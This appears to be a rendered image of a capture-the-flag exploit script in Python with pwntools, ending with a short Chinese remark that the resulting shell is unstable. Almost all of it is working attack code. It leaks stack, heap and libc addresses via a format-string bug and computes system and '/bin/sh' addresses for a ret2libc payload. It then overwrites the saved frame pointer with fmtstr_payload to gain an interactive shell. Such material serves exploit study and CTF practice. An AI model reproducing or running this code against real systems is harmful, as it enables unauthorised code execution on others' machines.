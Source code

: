 ```
display()
data = io.recvuntil('aaaa')
print(data)
data = data.split(b"Description:")[1].split(b'.')
ebp_addr = int(data[0],16)
heap_addr = int(data[1],16)
__libc_start_main_address = int(data[2],16)
print(data[0],data[1],data[2])
print("[*] ebp addr is ", hex(ebp_addr))
print("[*] heap_addr is ", hex(heap_addr))
print("[*] start_main is ",hex(__libc_start_main_address))

__libc_start_main_address  -= 247

offset_system = 0x0003a950
offset_str_bin_sh = 0x15912b
offset___libc_start_main = 0x00018550
libc_base = __libc_start_main_address -offset___libc_start_main

system_address =libc_base + offset_system
bin_sh = libc_base + offset_str_bin_sh
print('[*] __libc_start_main_address is', hex(__libc_start_main_address))
print('[*] libc base is', hex(libc_base))
print('[*] system_address is', hex(system_address))
print('[*] bin_sh is', hex(bin_sh))

payload = flat([system_address,0xdeadbeef,bin_sh,'aaaa'])
create('222', '234324234', '200',payload)
display()
io.recv()
'''
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
'''
payload=fmtstr_payload(6,{ebp_addr:heap_addr-4})
create('333', '234324234', '200',payload)
display()
io.recvuntil('>>> ')
io.sendline('5')
io.interactive()
```
该exp并不是一个稳定的shell。因为要打印很多字节。无法采取逐字节修改的方式，因为堆地址变化无法确定。